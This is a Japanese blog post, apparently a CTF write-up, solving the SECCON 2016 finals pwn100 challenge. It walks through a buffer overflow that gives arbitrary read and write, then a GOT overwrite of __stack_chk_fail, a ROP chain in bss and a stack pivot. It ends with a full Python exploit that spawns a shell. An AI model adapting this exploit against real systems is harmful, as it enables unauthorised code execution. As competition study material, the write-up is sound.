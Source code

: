 ```yaml
---
layout: post
title: SECCON 2016 FINALS writeup
---
```


elfでSECCON決勝に参加していました.
結果は23/24でしんどかったです.

pwn100しか解けなかったけどwriteup.

![](https://tsunpoko.github.io/images/seccon2016finals_enquete.png)

2回の入力がある.
1回目の入力でBOFがあり,

{% highlight asm %}
 80485ed:	e8 40 00 00 00       	call   8048632 <getaline>
 80485f2:	8b 45 08             	mov    eax,DWORD PTR [ebp+0x8]
 80485f5:	89 44 24 0c          	mov    DWORD PTR [esp+0xc],eax
 80485f9:	8d 45 b4             	lea    eax,[ebp-0x4c]
 80485fc:	89 44 24 08          	mov    DWORD PTR [esp+0x8],eax
 8048600:	c7 44 24 04 bb 87 04 	mov    DWORD PTR [esp+0x4],0x80487bb
 8048607:	08 
 8048608:	c7 04 24 01 00 00 00 	mov    DWORD PTR [esp],0x1
 804860f:	e8 bc fd ff ff       	call   80483d0 <dprintf@plt>
{% endhighlight %}

```
gdb-peda$ x/40xw 0xffffd3cc
0xffffd3cc:	0x41414141	0x00000000	0x00000000	0xffffd498
0xffffd3dc:	0xf7e41b74	0xf7fb93cc	0xffffd3fc	0x00000000
0xffffd3ec:	0xf7fb9000	0x00000000	0xf7fb9000	0x00000000
0xffffd3fc:	0x0622705a	0xffffd498	0xf7ff04c0	0xf7fb9000
0xffffd40c:	0xdf866000	0x00000000	0xf7e42016	0xffffd498
0xffffd41c:	0x0804859a	0x08048745	0xffffd44c	0xffffd44
```

```
dprintf("Hi, %s\n%s\n>>", 0xffffd3cc, 0x08048745);
                         [user input]
```

getaline()直後に*(ebp+0x8)をeaxに入れて, それをdprintfの第3引数に指定しているのでここで任意のアドレスが読めます.

この場合*(ebp+0x8)は0xffffd420 -> 0x08048745です.

0xffffd420 - 0xffffd3cc = 84

```
 8048614:	8b 45 0c             	mov    eax,DWORD PTR [ebp+0xc]
 8048617:	89 04 24             	mov    DWORD PTR [esp],eax
 804861a:	e8 13 00 00 00       	call   8048632 <getaline>
```
*(ebp+0xc)を引数としてgetaline()を呼んでいるので, ここを任意のアドレスにすればそこに書き込みが出来そうです.

攻撃の流れとして, 3ステージに分かれていて

[stage1]
任意のアドレスが読めるのでgotの値を呼んでinformation leakします.
ここで必ず__stack_chk_fail()に引っかかるので, __stack_chk_fail@gotをmainに向けます.

[stage2]
任意のアドレスが読めますが, もうlibcはleakしたので適当で良いです.
書き込み先をbssにして, rop chainを仕込みます.
__stack_chk_fail@gotはまだmainなので再度ret2vuln.

[stage3]
読むアドレスは適当です.
__stack_chk_fail@gotにleave; ret;のrop gadgetを書き込みます.
この際にebpには, bss - 4のアドレスを積んでおきstack pivotでespをrop chainが積まれているbss領域に向けます.
__stack_chk_fail()に引っかかるので, rop発動で終了です.


以下exploit

{% highlight python %}
from No___Op import *

if len(sys.argv) > 1:
    target = '10.100.6.1:28353'
    offset = {
        'rand': 0x0034010,
        '__libc_start_main': 0x19a00,
        'system': 0x40310,
        '/bin/sh': 0x16084c, # str
    }


else:
    target = 'localhost:4444'
    offset = {
        'rand': 0x34010,
        '__libc_start_main': 0x19a00,
        'system': 0x40310,
        '/bin/sh': 0x16084c, # str
    }

c =  Pwning( target )

got_chkfail = 0x804a018
addr_bss = 0x0804a034 + 0x800
addr_main = 0x0804852d
got_rand = 0x804a028
leave_ret = 0x80485c0

########stage1
pay1  = 'a' * 84
pay1 += p32(got_rand)
pay1 += p32(got_chkfail)

pay2 = p32(addr_main)

c.sendall(pay1)
c.sendall(pay2)

info('stage1')

c.read_until('a' * 84)

c.recv(9)

libc_rand = u32(c.recv(4))

libc_base = libc_rand - offset['rand']
libc_system = libc_base + offset['system']
libc_binsh = libc_base + offset['/bin/sh']

succ(hex(libc_base))
succ(hex(libc_system))
succ(hex(libc_binsh))

########stage2

pay1  = 'b' * 84
pay1 += p32(libc_binsh)
pay1 += p32(addr_bss)

pay2  = ''
pay2 += p32(libc_system)
pay2 += 'kasu'
pay2 += p32(libc_binsh)
pay2 += 'c' * (64 - len(pay2))
raw_input()

c.sendall(pay1)
c.sendall(pay2)

info('stage2')


########stage3

pay1  = 'd' * 76
pay1 += p32(addr_bss - 4) #ebp
pay1 += p32(leave_ret) #eip
pay1 += p32(libc_binsh)
pay1 += p32(got_chkfail)

pay2  = p32(leave_ret)
pay2 += 'BBBB'
raw_input()

c.sendall(pay1)
c.sendall(pay2)

info('stage3')

c.shell()
{% endhighlight %}
